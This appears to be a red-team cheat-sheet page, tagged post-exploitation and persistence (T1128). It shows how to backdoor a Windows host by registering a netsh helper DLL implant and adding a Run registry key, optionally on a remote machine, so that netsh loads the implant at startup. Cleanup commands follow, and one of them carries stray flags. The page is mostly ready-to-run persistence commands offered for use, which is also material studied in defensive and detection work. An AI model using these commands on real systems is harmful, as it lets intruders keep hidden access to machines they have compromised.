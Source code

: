 ```yaml
---
author(s):
  - Userware
tags:
  - post-exploitation
  - maintaining-access
  - persistence
  - living-off-the-land
  - T1128
  - windows
---
```

# Netsh

## Backdoor

```
C:\> reg.exe add "[\\<IP>\]HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /v "Firewall Rules Persist" /t REG_SZ /d "C:\Windows\System32\netsh" /f

C:\> netsh.exe add helper C:\path\to\implant.dll
```

Interactive prompt.

```
C:\> netsh.exe

netsh> add helper C:\path\to\implant.dll
```

## CleanUp

To cleanup the backdoor just specify the path to DLL implant.

```
C:\> netsh.exe delete helper C:\path\to\implant.dll
```

This can be done with an interactive prompt.

```
C:\> netsh.exe

netsh> delete helper C:\path\to\implant.dll
```

Delete the registry entry.

```
C:\> reg.exe delete "HKLM\SOFTWARE\Microsoft\NetSh" /v implant /f

C:\> reg.exe delete "[\\<IP>\]HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /v "Firewall Rules Persist" /t REG_SZ /d "C:\Windows\System32\netsh" /f
```

---
## References

### Persistence Info

- [Persistence Info: `netsh.exe` extensions ](https://persistence-info.github.io/Data/netsh.html)

### Red Team Notes

- [Red Team Notes: NetSh Helper DLL](https://www.ired.team/offensive-security/persistence/t1128-netsh-helper-dll)